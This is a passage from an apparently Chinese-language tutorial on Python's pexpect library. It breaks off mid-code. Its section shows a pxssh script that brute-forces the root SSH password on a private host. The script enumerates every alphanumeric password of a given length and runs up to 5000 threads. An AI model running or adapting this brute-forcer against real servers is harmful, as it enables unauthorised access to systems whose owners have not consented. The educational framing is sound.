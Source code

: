

## 3. 举个例子: pxssh 暴力登录

回到最开始的那本书 [Violent Python](https://book.douban.com/subject/11605108/), 作者就是拿 pexpect 遍历字典登录 Linux Server 的. 我们用 pxssh 大概模拟一下.

- 登录脚本

```python
def ssh_login(host, user, password):
    '''
    模拟 ssh 登录
    :param host: server host
    :param user: 账户名
    :param passwd: 登录密码
    :return: child
    '''
    try:
        pxssh().login(host, user, password)
    except Exception as e:
        pass
```

- 得用多线程提高效率, 同时控制并发

- 缩小下字典范围, 26大小写字母 + 阿拉伯数字

```python

def generate_password_dict(password_length):
    '''
    :param length: 密码长度
    :return:
    '''
    # words = 'a..zA..Z0..9'
    words = ''.join([str(i) for i in range(0, 10)] + [chr(i) for i in range(ord('a'), ord('a') + 26)] + \
                    [chr(i) for i in range(ord('A'), ord('A') + 26)])

    passwords = itertools.product(words, repeat=password_length)
    # with open('password.txt', 'w') as f:
    #     for password in passwords:
    #         f.write(''.join(password) + '\n')
    return passwords
```

#### 结合起来, 简陋代码如下:

以服务器 10.81.72.213 举例, 尝试 crack root 密码.

```python
import itertools
import threading

from pexpect.pxssh import pxssh

PROMPT = ['#', '>>>', '>', '\$']

thread_lock = threading.BoundedSemaphore(5000)

host = '10.81.72.213'
user = 'root'


def ssh_login(host, user, password):
    '''
    模拟 ssh 登录
```